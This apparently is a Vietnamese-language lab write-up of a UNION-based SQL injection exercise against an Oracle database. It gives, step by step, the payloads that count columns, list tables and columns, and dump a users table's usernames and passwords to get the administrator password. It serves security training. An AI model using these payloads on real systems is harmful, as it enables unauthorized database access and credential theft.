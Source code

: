 Sử dụng truy vấn **' UNION+SELECT 'tuong','trung' FROM dual--** xác định được Db có 2 trường dữ liệu.
Bảng DUAL là bảng một hàng một cột đặc biệt được hiển thị theo mặc định trong tất cả các cài đặt cơ sở dữ liệu của Oracle
<br>
Tiếp đó ta sử dụng truy vấn **' UNION+SELECT table_name,NULL FROM all_tables--** để lấy tên các bảng
<br> Ta có 1 số bảng nghi ngờ như sau: 
![image](https://user-images.githubusercontent.com/62832067/150348055-fa7b2774-ffd9-4de8-a6c4-f61f67b42cb6.png)
<br> Lấy tên cột của từng bảng bằng truy vấn sau và ta xác định được bảng chứa 2 cột **USERNAME** và **PASSWORD** là bảng **USERS_KWPONQ**  
<br> ** '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KWPONQ'--**
![image](https://user-images.githubusercontent.com/62832067/150348356-32691431-326d-44c3-889d-2448ebc20fc6.png)
<br> Sau khi có tên 2 cột chứa Username và Pass ta thực hiện lấy dữ liệu của 2 cột đó **' UNION SELECT USERNAME_VTWCVL,PASSWORD_XGKINY FROM USERS_KWPONQ--**
<br> Kết quả ta có được Password của tài khoản administator
![image](https://user-images.githubusercontent.com/62832067/150348722-4a064de2-afac-4df7-9481-9197501ad36d.png)

